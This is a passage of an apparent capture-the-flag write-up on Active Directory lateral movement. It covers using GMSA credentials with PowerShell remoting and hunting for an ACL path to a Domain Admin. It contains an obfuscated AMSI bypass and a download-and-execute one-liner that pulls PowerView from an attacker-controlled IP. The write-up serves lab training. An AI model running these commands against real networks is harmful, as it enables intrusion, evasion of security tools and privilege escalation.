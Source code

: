 ### Lateral Movement with PowerShell

I was unable to find a method of privilege escalation as Sierra and BloodHound was not providing any paths for potential escalation.

I decided to proceed with gaining command execution as _BIR-ADFS-GMSA$_ using PowerShell remoting.

Even though we already have the credentials for `BIR-ADFS-GMSA$` I used the following PowerShell snippet linked below to build a credential variable from the GMSA read ability for use with `Invoke-Command`.

**URL:** [https://www.thehacker.recipes/ad/movement/dacl/readgmsapassword](https://www.thehacker.recipes/ad/movement/dacl/readgmsapassword)

```
$cred = new-object system.management.automation.PSCredential "search.htb\BIR-ADFS-GMSA",(ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword
Invoke-Command -ComputerName $env:computername -Credential $cred -ScriptBlock {whoami}
```

![](<../../../.gitbook/assets/image (669).png>)

### Invoke-ACLScanner

Whilst working as BIR-ADFS-GMSA$ I then bypassed AMSI and run Powerview's Invoke-ACL Scanner to look for ACL's of interest.

```
Invoke-Command -computername research -Credential $cred -ScriptBlock {S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} ); iex (iwr -usebasicparsing http://10.10.14.8:8000/powerview.ps1);Invoke-ACLScanner -ResolveGUIDs | out-file c:\redirectedfolders\Output.txt }
```

![](<../../../.gitbook/assets/image (722).png>)

Looking through the results we see that `BIR-ADFS-GMSA$` has GenericAll privileges over the user Tristan.Davies wo is a Domain Administrator. Weird how this attack path was not picked up by BloodHound.

![](<../../../.gitbook/assets/image (827).png>)
